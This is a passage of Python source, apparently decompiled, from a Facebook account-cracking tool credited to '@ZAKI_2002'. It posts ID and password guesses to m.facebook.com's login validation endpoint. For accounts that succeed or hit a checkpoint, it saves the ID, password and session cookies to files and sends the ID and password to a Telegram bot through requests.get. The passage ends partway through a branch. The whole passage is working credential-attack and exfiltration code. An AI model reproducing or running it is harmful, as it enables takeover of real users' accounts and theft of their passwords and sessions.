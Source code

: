                 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9',
                'user-agent': ua,
                'content-type': 'application/x-www-form-urlencoded',
                'origin': 'https://m.facebook.com',
                'upgrade-insecure-requests': '1',
                'cache-control': 'max-age=0',
                'Host': 'm.facebook.com' })
            po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0', data=dataa, allow_redirects=False)
            if 'checkpoint' in po.cookies.get_dict().keys():
                if 'ya' in oprek:
                    akun.append(idf + '|' + pw)
                    ceker(idf, pw)
                else:
                    print('\n')
                    statuscp = f'''- ❲ CP ❳\n┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉\n\n  ⁂ - ID ➛ {idf}\n\n\n  ⁂ - PASS ➛ {pw}\n\n┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉\n  ⁂ - URL ➛ https://www.facebook.com/profile.php?id={idf}&mibextid=ZbWKwL\n\n┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉\n- BY ➛ @ZAKI_2002\n\t\t\t\t\t'''
                    statuscp1 = nel(statuscp, style='red')
                    cetak(nel(statuscp1, title='SESI'))
                    open('CP/' + cpc, 'a').write(idf + '|' + pw + '\n')
                    akun.append(idf + '|' + pw)
                    cp += 1
                    requests.get('https://api.telegram.org/bot' + str(token) + '/sendMessage?chat_id=' + str(ID) + '&text=' + str(statuscp))
            
            if 'c_user' in ses.cookies.get_dict().keys():
                headapp = {
                    'user-agent': 'NokiaX2-01/5.0 (08.35) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+' }
                if 'no' in taplikasi:
                    ok += 1
                    coki = po.cookies.get_dict()
                    kuki = ';'.join([f"{key}={value}" for key, value in ses.cookies.get_dict().items()])
                    open('OK/' + okc, 'a').write(idf + '|' + pw + '|' + kuki + '\n')
                    print('\n')
                    statusok = f'''- ❲ OK ❳\n┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉\n\n  ⁂ - ID ➛ {idf}\n\n\n  ⁂ - PASS ➛ {pw}\n\n┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉\n  ⁂ - URL ➛ https://www.facebook.com/profile.php?id={idf}&mibextid=ZbWKwL\n\n┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉\n- BY ➛ @ZAKI_2002\n\t\t\t\t\t'''
                    statusok1 = nel(statusok, style='green')
                    cetak(nel(statusok1, title='OK'))
                    requests.get('https://api.telegram.org/bot' + str(token) + '/sendMessage?chat_id=' + str(ID) + '&text=' + str(statusok))
                    cek_RAVEN(kuki)
            
    
                if 'ya' in taplikasi:
                    ok += 1
                    coki = po.cookies.get_dict()
                    kuki = ';'.join([f"{key}={value}" for key, value in ses.cookies.get_dict().items()])
                    
